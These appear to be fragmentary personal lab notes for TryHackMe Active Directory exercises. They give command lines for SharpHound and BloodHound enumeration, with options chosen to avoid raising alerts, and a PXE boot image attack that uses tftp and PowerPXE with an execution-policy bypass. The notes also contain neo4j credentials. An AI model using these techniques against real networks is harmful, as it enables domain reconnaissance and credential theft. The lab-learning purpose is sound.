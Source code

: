 
 Enumeration through Bloodhound
Sharphound.exe --CollectionMethods <Methods> --Domain za.tryhackme.com –ExcludeDCs
SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs
CollectionMethods - Determines what kind of data Sharphound would collect. The most common options are Default or All. Also, since Sharphound caches information, once the first run has been completed, you can only use the Session collection method to retrieve new user sessions to speed up the process.
Domain - Here, we specify the domain we want to enumerate. In some instances, you may want to enumerate a parent or other domain that has trust with your existing domain. You can tell Sharphound which domain should be enumerated by altering this parameter.
ExcludeDCs -This will instruct Sharphound not to touch domain controllers, which reduces the likelihood that the Sharphound run will raise an alert.

copy C:\Tools\Sharphound.exe ~\Documents\
cd ~\Documents\
SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com –ExcludeDCs
| ./sharphound.exe --CollectionMethods All --Domain za.tryhackme.com –ExcludeDCs |


Install Bloodhound
neo4j console == start the database that Bloodhound use
other terminal == bloodhound --no-sandbox
The default credentials for the neo4j database will be neo4j:neo4j
User: neo4j
Newpass: naqib

 recover the ZIP file from the Windows host. The simplest way is to use SCP command on your AttackBox:
scp <AD Username>@THMJMP1.za.tryhackme.com:C:/Users/<AD Username>/Documents/<Sharphound ZIP> .




=================================================================================

BAD

Alt+f2 > nm-connection-editor > IP Setting == DNS conf
 

x64{2B4FCD77-2F71-4737-BDD4-01E2786947BD}.bcd
10.200.4.202
x64{A7D42DD3-0543-4B9D-849A-77C76EA21F04}.bcd
x64{0D6F4540-AC60-4DB6-8E0C-52B3198A622F}.bcd
 
tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd

Powerpxe is a PowerShell script that automatically performs this type of attack 
use the Get-WimFile function of powerpxe to recover the locations of the PXE Boot images from the BCD file
powershell -executionpolicy bypass Windows PowerShell
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile

WIM files are bootable images in the Windows Imaging Format (WIM). 
download this image:
tftp -i 10.200.4.202 GET " \Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
